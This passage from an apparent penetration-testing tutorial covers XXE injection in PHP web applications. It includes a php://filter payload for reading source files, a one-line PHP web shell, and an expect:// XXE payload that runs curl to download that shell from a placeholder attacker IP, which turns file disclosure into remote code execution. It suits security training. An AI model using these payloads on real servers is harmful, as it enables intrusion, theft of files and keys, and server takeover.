 As we can see, this **did not work**, as we did not get any content. This happened because the file we are referencing is not in a proper XML format, so it fails to be referenced as an external XML entity. If a file contains some of XML's special characters (e.g. </>/&), it would break the external entity reference and not be used for the reference. Furthermore, we cannot read any binary data, as it would also not conform to the XML format.

Luckily, **PHP provides wrapper filters that allow us to base64 encode certain resources 'including files'**, in which case the final base64 output should not break the XML format. To do so, instead of using **file://** as our reference, we will use PHP's **php://filter/** wrapper. With this filter, we can specify the convert.base64-encode encoder as our filter, and then add an input resource (e.g. resource=index.php), as follows:

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

**This trick only works with PHP web applications**.

# Remote code execution with XXE

In addition to reading local files, we may be able to gain code execution over the remote server. The **easiest method would be to look for ssh keys, or attempt to utilize a hash stealing trick in Windows-based web applications**, by making a call to our server. If these do not work, we may still be able to **execute commands on PHP-based web applications through the PHP://expect filter**, though this requires the PHP expect module to be installed and enabled.

If the XXE directly prints its output 'as shown in this section', then we can execute basic commands as expect://id, and the page should print the command output. However, if we did not have access to the output, or needed to execute a more complicated command 'e.g. reverse shell', then the XML syntax may break and the command may not execute.

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:

```bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

Now, we can use the following XML code to execute a curl command that downloads our web shell into the remote server:

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
